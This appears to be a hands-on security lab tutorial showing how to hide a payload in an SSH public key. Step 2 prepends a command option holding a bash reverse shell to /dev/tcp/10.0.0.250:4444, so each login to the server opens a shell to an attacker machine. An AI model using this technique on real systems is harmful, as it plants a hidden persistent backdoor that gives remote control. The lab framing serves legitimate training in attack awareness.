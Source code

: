 Following are a few mini-labs that demonstrate how to add payloads to the public key.

## Lab #1 - Just calling home

1) If you haven't already done it, connect to the admin workstation, geneerate the SSH RSA keypair, and open the public key in your text editor.
   ```c
   vi ~/.ssh/id_rsa.pub
   ```

2) Just before the "ssh-rsa" add the following and leave a space between the last character and "ssh-rsa":
   ```c
   command="eval $(bash -i >& /dev/tcp/10.0.0.250/4444 0>&1 & bash -i)" ssh-rsa...
   ```
   Do not modify anything after the "ssh-rsa".  The first line of the public key should now look something like:

3) Save the changes and exit the text editor.  You should now be back at the command prompt on the ADMIN machine.

4) Copy the public key to 10.0.0.2 (the server) by running the following:
   
   ```c
   ssh-copy-id admin@10.0.0.2
   ```
   
   When you receive the "Are you sure...?" prompt, type "yes" (without the quotes) and press the Enter key.
   
   When asked for the password, type "admin" and press the Enter key.
   
   What this does is simulate what a system administrator would do to set up key-based authentication between their workstation and one or more servers that they'll want to manage.  In short, the "ssh-copy-id" command installs the public key on the new machine.

5) Connect to the server by running the following.  When you press enter, pay attention to the "BAD GUY" window.
   
   ```c
   ssh admin@10.0.0.2
   ```
   
   In the "ADMIN" window, you should notice that the prompt has changed to "admin@SERVER".  This means that you've connected to the "SERVER" machine.
   
   In the "BAD GUY" window, you should see that a connection was made back to your "bad guy machine".  Now, anything that you type in the "BAD GUY" window will be executed on the SERVER.  You can't really do mcuh with this connection but it demonstrates that a connection can be made. 

If you experiment, you'll notice that there's a number of problems with the connections that need correction. One of these is that the connections are "crashy".  Another is that the real admin cannot do much. (Hint: there's others...) 

6) In the terminal that's not in your browser, reset the lab by running the following:
   
   ```c
   ./destroy
   ./build
   ```
